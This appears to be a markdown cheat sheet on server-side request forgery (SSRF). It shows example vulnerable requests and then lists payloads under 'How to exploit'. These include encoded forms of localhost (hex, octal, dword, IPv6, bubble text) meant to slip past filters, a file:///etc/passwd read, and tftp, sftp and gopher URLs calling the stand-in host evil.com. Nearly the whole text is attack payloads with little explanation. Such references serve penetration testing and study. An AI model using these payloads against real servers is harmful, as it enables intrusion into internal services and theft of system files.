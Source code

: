 # SSRF

Usually, it can be found in the request that contain request to another url, for example like this

```
POST /api/check/products HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Origin: https://example.com
Referer: https://example.com

urlApi=http://192.168.1.1%2fapi%2f&id=1
```

or

```
GET /image?url=http://192.168.1.1/
Host: example.com
```

### How to exploit

1. Basic payload

```
http://127.0.0.1:1337
http://localhost:1337
```

2. Hex encoding

```
http://127.0.0.1 -> http://0x7f.0x0.0x0.0x1
```

3. Octal encoding

```
http://127.0.0.1 -> http://0177.0.0.01
```

4. Dword encoding

```
http://127.0.0.1 -> http://2130706433
```

5. Mixed encoding

```
http://127.0.0.1 -> http://0177.0.0.0x1
```

6. Using URL encoding

```
http://localhost -> http://%6c%6f%63%61%6c%68%6f%73%74
```

7. Using IPv6

```
http://0000::1:1337/
http://[::]:1337/
```

8. Using bubble text

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ

Use this https://capitalizemytitle.com/bubble-text-generator/
```

### How to exploit (URI Scheme)



1. File scheme

```
file:///etc/passwd
```

2. Dict scheme

```
dict://127.0.0.1:1337/
```

3. FTP scheme

```
ftp://127.0.0.1/
```

4. TFTP scheme

```
tftp://evil.com:1337/test
```

5. SFTP scheme

```
sftp://evil.com:1337/test
```

6. LDAP scheme

```
ldap://127.0.0.1:1337/
```

7. Gopher scheme

```
gopher://evil.com/_Test%0ASSRF
```
